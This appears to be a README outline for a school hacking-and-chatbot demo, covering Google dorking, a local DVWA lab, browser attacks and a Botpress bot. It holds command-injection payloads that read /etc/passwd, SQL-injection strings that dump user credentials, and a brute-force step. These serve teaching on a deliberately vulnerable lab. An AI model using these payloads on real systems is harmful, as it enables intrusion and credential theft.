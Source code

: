 # EAT-Demo
NSCC Demo for École acadienne de Truro

# École acadienne de Truro Live Demo | Bienvenue

If needed run the [Setup](setup.md)

## Part 1 | Web Hacking
### Security Intro (Obligitory Boring Stuff)  (10 Min)
* Ethical Hacking
  * Always get permission
  * Hacking is just applied Skills/Knowledge (Creatively!)
* Staying Safe
  * Stong Passwords \
    https://haveibeenpwned.com/
  * Multi-Factor
  * Always update

### Step 1 | Recon (15 Min)
* [Google Dorking](https://github.com/chr3st5an/Google-Dorking) Demo
    1. `allintext: "DVWA" "username" "password"`
    2. `allintext:"DVWA" filetype:pdf`
    3. 
* Identify a Target
  * We'll just create our own!
    * `docker run --rm -it -p 80:80 vulnerables/web-dvwa`
    * Just Browsing http://localhost
    * Click **Login** and then click **Create/Reset Database**. 


### Step 2 | Attack (20Min)
* Browser based attacks
    1. Command Injection \
    `127.0.0.1; ls -la /` \
    `127.0.0.1 ; cat /etc/passwd | tee /tmp/passwd`
    2. SQL Injection \
    `1' OR '1'='1'#` \
    `%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`
* Advanced Attacks (Automation Demo) \
  * Password Brute Force
    * Let's use brute.py
    * We'll specify our target. (Line 53)
    * We need to know usernames (line 48)
    * We need a dictionary of common passwords. (line 113) \
    `./brute.py`



## Part 2 | Generative AI - DYI ChatBot

### What is AI? (More Obligitory Boring Stuff) (5 Min)
 * How does AI learn?
 * How can we control it?
   * Data Sets
   * decision Trees
   * HardCoded!

### Botpress Demo (30 Min)
* Creating a simple Flow
* Set up a variable
* Load some data
* Add some Guardrails!
* Test your bot!

